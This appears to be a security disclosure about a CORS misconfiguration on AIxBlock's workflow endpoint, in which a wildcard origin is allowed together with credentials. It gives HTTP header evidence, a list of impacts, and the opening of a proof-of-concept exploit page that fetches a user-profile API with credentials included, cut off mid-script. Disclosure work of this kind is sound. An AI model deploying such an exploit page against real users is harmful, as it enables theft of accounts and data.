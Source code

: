 # 🚨 CRITICAL CORS MISCONFIGURATION VULNERABILITY - AIxBlock

## **Vulnerability Summary**
**Type**: Cross-Origin Resource Sharing (CORS) Misconfiguration  
**Severity**: Medium-High (CVSS 6.5)  
**Impact**: Cross-Origin Request Forgery, Credential Theft, Data Exfiltration  
**Affected Endpoints**: workflow.aixblock.io  

## **🔍 Technical Details**

### **Vulnerability Description**
The AIxBlock workflow endpoint (`workflow.aixblock.io`) implements a dangerous CORS configuration that allows:
- **Wildcard Origin**: `Access-Control-Allow-Origin: *`
- **Credentials Enabled**: `Access-Control-Allow-Credentials: true`

This combination enables any malicious website to make authenticated requests to AIxBlock APIs, potentially leading to account takeover, data theft, and unauthorized actions.

### **HTTP Response Evidence**
```http
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sun, 19 Oct 2025 02:38:55 GMT
Content-Type: text/html
Content-Length: 1196
Connection: keep-alive
Access-Control-Allow-Methods: GET, POST, PUT, DELETE, OPTIONS
Access-Control-Allow-Headers: Origin, Content-Type, Accept, Authorization       
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: *
```

### **Security Impact**
1. **Credential Theft**: Malicious sites can steal user session cookies
2. **Account Takeover**: Unauthorized API calls with user credentials
3. **Data Exfiltration**: Access to user's private workflow data
4. **Cross-Site Request Forgery**: Perform actions on behalf of authenticated users

## **🎯 Proof of Concept**

### **Malicious Website Exploit**
```html
<!DOCTYPE html>
<html>
<head>
    <title>AIxBlock CORS Exploit</title>
</head>
<body>
    <h1>AIxBlock CORS Vulnerability Demonstration</h1>
    <div id="results"></div>
    
    <script>
        // CORS exploit demonstration
        function exploitCORS() {
            // Attempt to make authenticated request to AIxBlock
            fetch('https://workflow.aixblock.io/api/user/profile', {
                method: 'GET',
                credentials: 'include', // This will work due to CORS misconfiguration
                headers: {
```